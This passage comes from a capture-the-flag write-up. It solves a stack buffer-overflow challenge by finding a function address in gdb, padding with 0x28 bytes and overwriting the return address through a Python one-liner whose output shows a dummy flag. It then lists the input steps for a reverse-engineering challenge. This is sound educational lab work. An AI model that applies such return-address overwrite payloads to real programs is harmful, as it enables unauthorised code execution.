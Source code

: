 Let's find the address of the super generic flag reading function with gdb.

```
(gdb) print super_generic_flag_reading_function_please_ret_to_me
$2 = {<text variable, no debug info>} 0x4011f6 <super_generic_flag_reading_function_please_ret_to_me>
```

Now we're ready to craft a string that exploits the program and runs the secret
function!

```
a0a1a2a3a4a5a6a7a8a9b0b1b2b3b4b5b6b7b8b9c0c1c2c3 <- original
                                        c0c1c2c3 <- ends up in $rsp
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa         <- padding ( 0x28 * 'a' )

  c 0 c 1 c 2 c 3  <- ends up in $rsp
  3 c 2 c 1 c 0 c  <- reverse
0x3363326331633063 <- reverse (hex)
0x00000000004011f6 <- pointer we want in $rsp
  f611400000000000 <- reverse
  \xf6\x11\x40\x00\x00\x00\x00\x00 <- python bytestring

exploit string:
b'a' * 0x28 + b'\xf6\x11\x40\x00\x00\x00\x00\x00'
```

Now let's try it in an environment-less shell:

```
python3 -c "import sys; sys.stdout.buffer.write(b'a' * 0x28 + b'\xf6\x11\x40\x00\x00\x00\x00\x00')" | ./ret2generic-flag-reader
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
flag{this_is_a_dummy_flag_go_solve_it_yourself}

Segmentation fault (core dumped)
sh-5.1$
```

### rev/bread-making

For this challenge, I first tried using iaito again to do some program flow
analysis. After giving up on that, I decided to instead brute-force the correct
steps by hand. This was a very long and boring process.

First I used `strings` again to extract all the dialogue and user input strings
from the binary. Then I filtered them to not include obvious dialogue, but only
the possible user input strings. And this is the correct path that gives the
flag:

```
add flour
add salt
add yeast
add water
hide the bowl inside a box
wait 3 hours
work in the basement
preheat the toaster oven
set a timer on your phone
watch the bread bake
pull the tray out with a towel
open the window
unplug the oven
```